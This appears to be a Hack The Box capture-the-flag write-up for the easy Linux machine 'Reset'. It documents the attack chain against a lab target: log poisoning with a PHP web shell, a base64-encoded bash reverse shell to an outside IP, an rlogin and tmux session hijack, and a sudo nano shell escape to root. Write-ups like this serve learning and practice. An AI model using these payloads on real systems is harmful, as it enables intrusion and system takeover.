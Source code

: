 # 🧪 Reset – Hack The Box

**Platform:** Hack The Box  
**Difficulty:** Easy  
**IP Address:** 10.129.234.130  
**Date Completed:** [Insert Date]  

---

## 🧭 Overview

Reset is an Easy-rated Linux machine that showcases a chained attack involving log poisoning and PHP code execution via the Apache access log. The foothold is gained through a password reset functionality and Remote Code Execution (RCE) using poisoned logs. Privilege escalation involves abusing r-services for `rlogin` and hijacking a `tmux` session, followed by executing `nano` with `sudo` privileges to spawn a root shell.

---

## 🔍 Enumeration

### 🔎 Nmap

```bash
nmap -p- --min-rate 10000 10.129.234.130
nmap -p 22,80,512,513,514 -sCV -oN nmapscan 10.129.234.130
```

Open ports:
- 22 (SSH)
- 80 (HTTP)
- 512–514 (rsh, login, shell)

Apache hosts an admin login page with a password reset option.

---

## 🪜 Foothold

### 🔑 Password Reset + Log Poisoning

1. Use `admin` in the password reset field
2. Burp Suite reveals:
```json
{"username":"admin","new_password":"f73e1be2"}
```
3. Login with `admin:f73e1be2`

### 💥 Log Injection RCE

- Injected PHP in User-Agent:
```php
<?php system($_REQUEST['cmd']); ?>
```

- Loaded it from:
```
/var/log/apache2/access.log?cmd=whoami
```

- Base64-encoded reverse shell:
```bash
echo 'bash -c "bash -i >& /dev/tcp/10.10.14.7/443 0>&1"' | base64
# Send it with: cmd=echo+<base64>|base64+-d|bash
```

Got a shell as `www-data`.

📄 `user.txt`  
`19ba954c************************`

---

## ⚙️ Privilege Escalation

### 🔁 Rlogin + Tmux Hijack

- `/home/sadm/` contains a tmux session
- Used `rlogin` from a spoofed `sadm` user to bypass authentication
- Attached tmux session and retrieved password:
```
7lE2PAfVHfjz4HpE
```

### 🔼 Sudo Privileges

```bash
sudo -l
```

Allowed commands:
- `sudo nano /etc/firewall.sh`
- `sudo tail /var/log/syslog`
- `sudo tail /var/log/auth.log`

Used **Nano shell escape**:
- Opened file with:
```bash
sudo /usr/bin/nano /etc/firewall.sh
```
- Pressed `Ctrl + R` → `Ctrl + X`
- Ran:
```bash
reset; bash 1>&0 2>&0
```

Gained root shell.

📄 `root.txt`  
`7ad6951b************************`

---

## 🧠 Lessons Learned

- Password reset functionality may leak credentials via intercepted responses
- Log poisoning with PHP injection can lead to full RCE
- Rlogin and improperly secured tmux sessions are still dangerous
- Tools like `nano` with `sudo` access can easily be abused for shell escapes

---

## 📸 Proof

![reset.png](https://raw.githubusercontent.com/inkedqt/ctf-writeups/main/HTB/proofs/reset.png)